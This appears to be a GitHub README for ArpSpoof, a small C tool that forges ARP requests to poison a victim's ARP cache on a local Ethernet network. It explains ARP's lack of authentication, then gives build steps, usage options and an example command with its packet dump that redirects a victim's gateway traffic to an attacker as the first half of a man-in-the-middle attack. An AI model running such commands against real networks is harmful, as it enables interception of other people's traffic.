

# ArpSpoof: ARP cache poisoner

ArpSpoof is an experimental ARP cache poisoning program, I have written in C,
for Linux plateform. This is a tiny and simple tool, which provides a command
line interface to forge ARP requests on the Ethernet Local Area Network. It uses
the Linux low level packet interface and have **zero external library
dependency**.


- [ARP spoofing basics](#arp-spoofing-basics)
- [ArpSpoof](#arpspoof)
    - [Build](#build)
    - [Usage](#usage)
    - [Options](#options)
    - [Example](#example)
- [Links](#links)


## ARP spoofing basics

As explained in the [[4] RFC 894](https://tools.ietf.org/html/rfc894)</a>,
for two hosts to be able to exchange IP datagrams over a Ethernet local area
network, they need to use a method to map IP addresses (OSI layer 3 - network)
to Ethernet Addresses (OSI layer 2 - data link).
This can be done with a static table or by dynamic discovery. The second
solution more flexible uses the Address Resolution Protocol (ARP) to perform
this task.

The advices about the design and implementation for the ARP is
presented in the [[3] RFC 826](https://tools.ietf.org/html/rfc826)
This document explains the ARP packet format and how to use it to perform a
dynamic mapping between IP addresses and Ethernet addresses through a table
managed by each host. Below, the ARP packet reception algorithm sugest by the
RFC 826, which explains how an ARP packet must be handle by a network host.

```text
Packet Reception:
-----------------

When an address resolution packet is received, the receiving
Ethernet module gives the packet to the Address Resolution module
which goes through an algorithm similar to the following.
Negative conditionals indicate an end of processing and a
discarding of the packet.

?Do I have the hardware type in ar$hrd?
Yes: (almost definitely)
  [optionally check the hardware length ar$hln]
  ?Do I speak the protocol in ar$pro?
  Yes:
    [optionally check the protocol length ar$pln]
    Merge_flag := false
    If the pair <protocol type, sender protocol address> is
        already in my translation table, update the sender
        hardware address field of the entry with the new
        information in the packet and set Merge_flag to true.
    ?Am I the target protocol address?
    Yes:
      If Merge_flag is false, add the triplet <protocol type,
          sender protocol address, sender hardware address> to
          the translation table.
      ?Is the opcode ares_op$REQUEST?  (NOW look at the opcode!!)
      Yes:
        Swap hardware and protocol fields, putting the local
            hardware and protocol addresses in the sender fields.
        Set the ar$op field to ares_op$REPLY
        Send the packet to the (new) target hardware address on
            the same hardware on which the request was received.

```

As described by this algorithm, ARP is designed without security consideration.
Any ARP packet is trusted and processed as it. So the ARP translation table can
be easily overwritten in favor of a malicious host in order to hijack the
communication of other host(s).

To hijack IP communication between two hosts in a Ethernet local area network,
it is necessary to corrupt the hosts tables which map the IP addresses to
Ethernet addresses in order that each host map the IP address of the each other
with the Ethernet address of the malicious host. Below, an illustration of this
situation.



**Man In The Midle by ARP spoofing**

The tool presented here is designed to perform ARP requests towards a target
host in order to overwrite its ARP translation table.


## ArpSpoof

### Build

Clone and build ArpSpoof from my github repository.

```text
$ git clone https://github.com/VincentDary/ArpSpoof.git
$ cd ArpSpoof
$ make && make clean
```

### Usage

```text
# ./ArpSpoof
  usage: ArpSpoof <interface> <target mac> <target IPv4> <source mac> <fake IPv4>
```

### Options

`<interface>`

The network interface where to start the ARP request injection.


`<target mac>`

The target MAC address of the victim.


`<target IPv4>`

The target local IPv4 address of the victim.


`<source mac>`

The source MAC address associated to the &#60;interface&#62; parameter, where
the ARP request injection is started.

`<fake IPv4>`

The local IPv4 address to usurp.

**Note:**

This tool doesn't forward the network traffic of the victim(s). You can use an
other tool for this or enable it on your machine or on the machine where the
network traffic is redirected.


### Example

Network configuation.

- Attacker:
    - Network interface = eth0
    - MAC address = 00:11:50:22:55:14
    - IPv4 = 192.168.1.72
- Victim:
    - IPv4 = 192.168.1.56
    - MAC address = 00:a0:d1:dc:79:80
- Gateway:
    - IPv4 = 192.168.1.1
    - MAC address = c8:d1:2a:91:b6:56

The following parameters pass to ArpSpoof forge ARP requests which overwrite the
ARP table of the host identified by 192.168.1.56 (the victim) with the
following entry [00:11:50:22:55:14 | 192.168.1.1].

```text
#./ArpSpoof eth0 00:A0:D1:DC:79:80 192.168.1.56 00:11:50:22:55:14 192.168.1.1

  ARP packet write on wire, 42 bytes :

 00 a0 d1 dc 79 80 00 11   50 22 55 14 08 06 00 01  |  ....y...  P"U.....
 08 00 06 04 00 01 00 11   50 22 55 14 c0 a8 01 01  |  ........  P"U.....
 00 a0 d1 dc 79 80 c0 a8   01 38 .. .. .. .. .. ..  |  ....y...  .8
```

So, now all the IP packets send by the host 192.168.1.56 and intented to
192.168.1.1 are send to the host 192.168.1.72 (the attacker). In order to
perform a complet MITM to hijack all the communications between the victim and
the gateway, other ARP requests must be send to the host 192.168.1.1
(the gateway) in other to overwrite its ARP table with the following entry
[00:11:50:22:55:14 | 192.168.1.56].


## Links


[1] Github ArpSpoof.
[https://github.com/VincentDary/ArpSpoof](https://github.com/VincentDary/ArpSpoof)

[2] RFC 826, David C. Plummer, An Ethernet Address Resolution Protocol.
[https://tools.ietf.org/html/rfc826](https://tools.ietf.org/html/rfc826)

[3] RFC 894, Charles Hornig, A Standard for the Transmission of IP Datagrams over Ethernet Networks
[https://tools.ietf.org/html/rfc894](https://tools.ietf.org/html/rfc894)

[4] A Solution for ARP Spoofing.
[https://arxiv.org/pdf/1708.01302.pdf](https://arxiv.org/pdf/1708.01302.pdf)

[5] Gratuitous ARP.
[https://www.practicalnetworking.net/series/arp/gratuitous-arp/](https://www.practicalnetworking.net/series/arp/gratuitous-arp/)
